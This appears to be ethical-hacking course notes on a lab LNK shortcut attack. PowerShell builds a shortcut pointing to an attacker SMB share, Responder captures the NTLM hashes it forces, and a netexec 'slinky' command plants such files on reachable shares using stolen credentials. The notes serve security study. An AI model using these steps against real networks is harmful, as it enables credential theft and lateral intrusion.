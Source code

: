 # VIII. LNK File Attack

This attack leverages malicious .LNK (shortcut) files to infect a system. LNK files are shortcut files commonly used in Windows to point to executable file or directories. These can be crafted maliciously to execute arbitrary commands when opened by a user.

## How is a LNK File Attack Performed?

Boot up any Windows user machine.

- Open Powershell as an Administrator
- Paste the following line by line into the console:
    
    ```powershell
    $objShell = New-Object -ComObject WScript.shell
    $lnk = $objShell.CreateShortcut("C:\test.lnk")
    $lnk.TargetPath = "\\192.168.138.149\@test.png"
    $lnk.WindowStyle = 1
    $lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
    $lnk.Description = "Test"
    $lnk.HotKey = "Ctrl+Alt+T"
    $lnk.Save()
    ```
    
    NOTE: Make sure the TargetPath is set to the IP address of the Kali machine.
    
   ![lnk_1](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/b0fa6a33-63e4-41c9-90a4-1768e1847bcc)

- Save the file as `~test`. This is to make the file get loaded at the top.
- Move the file into the file share in this, mine is named `The Loot`.

   ![lnk_2](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/10b5485e-b4b5-4efb-890e-7238330135d8)
   
- Back on the Kali machine. Start responder with `sudo responder -I eth0 -dPv`
- Navigate back to the file share in Windows, or refresh it to load the lnk file.
- Responder has captured the hashes.
    
    ![lnk_3](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/23376704-4b61-4543-a3af-6d17f0536d2e)

There’s another method to perform a lnk attack using a tool called `Netexec` which was formerly known as `crackmapexec`. It is pretty much the same tool. The tool has a module called `slinky` that looks for a share that is accessible to the user machine and it’ll upload the malicious lnk file to it without having to access the machine and do it ourselves.

```bash
netexec smb <USERMACHINE-IP> -d <DOMAIN NAME> -u <USERNAME> -p <PASSWORD> -M slinky -o NAME=test SERVER=<KALI-IP>
```

  ![lnk_4](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/ebcfb46d-3a0a-48c0-9781-ab14b90219b3)

The current configuration we are using does have the file share exposed. But this is very useful to know in a situation where a file share was exposed.

## Resources:

Additional resources for forced authentication: [https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.rtf](https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.rtf)
